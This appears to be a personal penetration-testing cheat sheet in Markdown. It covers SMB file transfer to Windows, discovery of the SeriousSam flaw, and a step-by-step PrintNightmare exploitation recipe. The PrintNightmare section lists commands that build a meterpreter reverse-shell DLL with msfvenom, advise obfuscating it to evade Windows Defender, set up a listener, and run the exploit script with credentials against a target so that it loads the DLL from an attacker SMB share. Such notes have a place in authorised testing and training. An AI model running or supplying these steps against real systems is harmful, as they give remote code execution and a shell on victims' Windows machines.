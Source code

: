 # Pentest Guides 

## Feching files to Windows host

Linux | Windows
-------|--------
`sudo smbserver.py -smb2support -user complexia -password complexia share $(pwd)` | `\\192.168.1.1\share\$(filename)`
`sudo smbserver.py share $(pwd) -smb2support` | `\\192.168.1.1\share\$(filename)`



## Vulnerabilities - Windows

### -> SeriousSam

***Setup commands***

*Running a script on a low privilege user will cause an error, run the command below in Powershell*

`Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser`


**Discovery methods**

Method | Command
-------|--------
PowerShell | `.\SeriousSam.ps1`

Link to [Github Repository](https://github.com/romarroca/SeriousSam/blob/main/serioussam.ps1)

### -> PrintNightmare

***Setup commands***

Description | Commands&Links
------------|--------
*Download virtualenv* | `sudo apt install virtualenv`
*Create virtual enviroment by sudo privileges with the command*  | `virtualenv --python=python3 yourdirectory`
*Run*  | `source yourdirectory/bin/activate`
*Git clone & Follow Instructions*  | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Install the impacket version described in github repository* | [Repository](https://github.com/cube0x0/CVE-2021-1675)
*Create meterpreter payload* | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=0000 -o reverse.dll`
*Meterpreter payload only works when windows defender disabled* | **Obfuscate the payload**

***Exploit commands***

Description | Commands&Links
------------|---------------------------------------------------------------------------------------------------
*Setup smbserver in root mode in virtual enviroment with the correct impacket version* | `smbserver.py share $(pwd) -smb2support`
*Create your multi/handler* | `multi/handler -- > set payload windows/x64/meterpeter/reverse_tcp`
*Run the script* | `python3 CVE-2021-34527.py cyberlabs.com/cyberuser:'Password'@0.0.0.0 '\\0.0.0.0\share\shell.dll`

**Discovery methods**

Method | Command
-------|--------
Script | `rpcdump.py @192.168.1.10 \| egrep 'MS-RPRN\|MS-PAR'`


